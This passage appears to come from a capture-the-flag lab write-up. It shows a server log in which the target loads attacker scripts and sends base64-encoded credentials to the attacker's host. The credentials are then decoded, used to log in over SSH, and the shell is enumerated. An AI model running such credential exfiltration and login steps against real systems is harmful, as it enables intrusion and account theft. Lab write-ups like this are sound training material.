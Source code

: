 ![image.png](image%2015.png)

```bash
10.10.96.230 - - [27/Oct/2024 06:38:25] "GET /data?amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo= HTTP/1.1" 301 -
10.10.96.230 - - [27/Oct/2024 06:39:24] "GET /exfilscript.js HTTP/1.1" 200 -
10.10.96.230 - - [27/Oct/2024 06:39:24] "GET /xssex.js HTTP/1.1" 200 -
10.10.96.230 - - [27/Oct/2024 06:39:25] "GET /data?amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo= HTTP/1.1" 301 -
```

`echo 'amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=' | base64 -d`

```bash
jack:WhyIsMyPasswordSoStrongIDK
```

> **SSH Connection Phase**
> 

`ssh -o MACs=hmac-sha2-256 jack@whyhackme.thm -p 22`

```bash
jack@whyhackme.thm's password: WhyIsMyPasswordSoStrongIDK

jack@ubuntu:~$ whoami
jack
jack@ubuntu:~$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
jack@ubuntu:~$ pwd
/home/jack
jack@ubuntu:~$ uname -a
Linux ubuntu 5.4.0-159-generic #176-Ubuntu SMP Mon Aug 14 12:04:20 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
jack@ubuntu:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.7 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
jack@ubuntu:~$ which python
jack@ubuntu:~$ which netcat
```